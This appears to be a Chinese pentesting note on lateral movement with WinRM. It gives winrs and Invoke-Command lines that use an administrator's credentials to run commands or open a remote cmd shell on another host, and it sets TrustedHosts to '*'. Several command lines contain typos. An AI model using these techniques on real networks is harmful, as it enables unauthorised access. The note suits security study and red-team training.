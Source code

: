 # 利用WinRM远程命令执行横向移动

### 介绍

​	WinRM(Windows远程管理)是Microsoft 在Windows中对WS-Management的实现，它使系统可以跨通用网络访问或交换管理信息。利用脚本对象或内置的命令行工具，WinRM可以与可能具有基板管理控制器(BMC)的任何远程计算机一起使用，以获取数据。也可以获取基于Windows的计算机(包括WinRM).WinRM默认端口5985(HTTP端口)或5986(HTTPS端口)，若配置了WINRM远程服务，当我们拿到一个管理员账户时，可以使用远程连接进行命令执行操作winrm通过HTTP(`5985，server机器默认开启`)或HTTPS SOAP(`5986`)端口来进行通信。

### 原理

​	Winrs.exe是一个内置的命令行工具，他可以使适当的有资格用户允许远程命令执行。可以利用该工具进行横向移动到另一台主机上。

### 命令

```
winrs -r:http://[目标ip]]:5985 -u:zz -p:123.com "ipconfig"
winrs -r:http://[目标ip]:5985-u:机器名\用户名 -p:xxxxx"ipconfig"
winrs -r:https://[目标ip]:5985-u:机器名\用户名 -p:xxxxx"ipconfig"
winrs -r:http://[目标ip]:5985-u:机器名\用户名 -p:xxxxx cmd
winrs -r:https://[目标ip]:5985-u:机器名\用户名 -p:xxxxx cmd
Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\}
Invoke-Command -ComputerName TARGET -Credential 域名\用户名 -command {Get.Culture}
Invoke-Command -ComputerName TARGET -Credential 城名用户名 -ScriptBlock {Get-
Culture}
```

### 执行

- 尝试在域内机器中执行该命令，但提示报错。

```
winrs -r:http://192.168.211.10:5985 -u:administrator -p:11qq``` "whoami"
```

![](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240704101306321.png)

- 解决办法：输入该命令，出现下图显示即可

```
winrm set winrm/config/Client @{TrustedHosts="*"}   //需管理员权限执行
```

![image-20240704101601205](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240704101601205.png)

- 再次尝试，成功执行命令。

![image-20240704103124229](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240704103124229.png)

